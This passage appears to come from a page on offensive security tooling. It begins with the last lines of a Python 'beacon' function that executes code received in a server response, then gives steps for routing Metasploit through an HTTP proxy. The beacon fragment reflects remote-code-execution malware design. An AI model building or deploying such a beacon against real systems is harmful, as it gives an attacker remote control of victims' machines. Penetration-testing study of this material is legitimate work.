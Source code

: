 ```python
    exec(response_text)

if __name__ == "__main__":
    beacon()
```


### Steps to Configure Metasploit to Use an HTTP Proxy

1. **Set Up the Proxy Configuration**:
   - Determine the proxy server's IP address and port number.
   - If your proxy requires authentication, obtain the username and password.

2. **Configure Metasploit to Use the Proxy**:
   - You can configure Metasploit to use an HTTP proxy by setting environment variables or configuring it directly within Metasploit.

#### Using Environment Variables

You can set the environment variables `HTTP_PROXY` and `HTTPS_PROXY` before starting Metasploit. This method will work for most command-line tools that respect these environment variables.

```bash
export HTTP_PROXY=http://username:password@proxy_ip:proxy_port
export HTTPS_PROXY=http://username:password@proxy_ip:proxy_port
msfconsole
```

Replace `username`, `password`, `proxy_ip`, and `proxy_port` with your proxy details.

#### Configuring Within Metasploit

You can also configure the proxy directly within Metasploit using the `setg` command to set global variables.

1. **Start Metasploit**:
   ```bash
   msfconsole
   ```

2. **Set the Global Proxy Settings**:
   ```ruby
   setg Proxies http:http://username:password@proxy_ip:proxy_port
   ```

### Example: Using Metasploit with an HTTP Proxy

Here's an example configuration:

1. **Start Metasploit**:
   ```bash
   msfconsole
   ```

2. **Set Proxy Configuration**:
   ```ruby
   setg Proxies http:http://user:pass@192.168.1.100:8080
   ```
